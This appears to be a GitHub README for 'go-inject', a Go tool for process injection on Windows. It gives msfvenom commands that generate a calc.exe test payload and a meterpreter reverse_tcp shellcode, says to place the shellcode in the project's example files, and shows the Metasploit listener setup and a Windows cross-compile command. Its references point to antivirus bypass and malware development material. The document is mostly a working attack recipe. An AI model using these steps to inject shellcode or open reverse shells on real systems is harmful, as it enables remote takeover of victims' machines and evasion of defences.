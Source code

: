 # go-inject

Process injection techniques written in Go.

## Usage

Use msfvenom to generate shellcode.

```bash
# Testing with calculator.
msfvenom -p windows/x64/exec CMD=calc.exe -f hex

# MSFVENOM
msfvenom -p windows/x64/meterpreter/reverse_tcp -f hex -o rev.hex LHOST=127.0.0.1 LPORT=4444
```

Place as payload string within one of the example .go files.

Start meterpreter listener:

```bash
use payload/windows/x64/meterpreter/reverse_tcp
set LHOST 127.0.0.1
set LPORT 4444
to_handler
```

## Build

```bash
env GOOS=windows GOARCH=amd64 go build
```

## References

* https://labs.jumpsec.com/2019/06/20/bypassing-antivirus-with-golang-gopher-it/
* https://github.com/brimstone/go-shellcode
* https://github.com/sysdream/hershell
* https://github.com/yoda66/MalwareDevTalk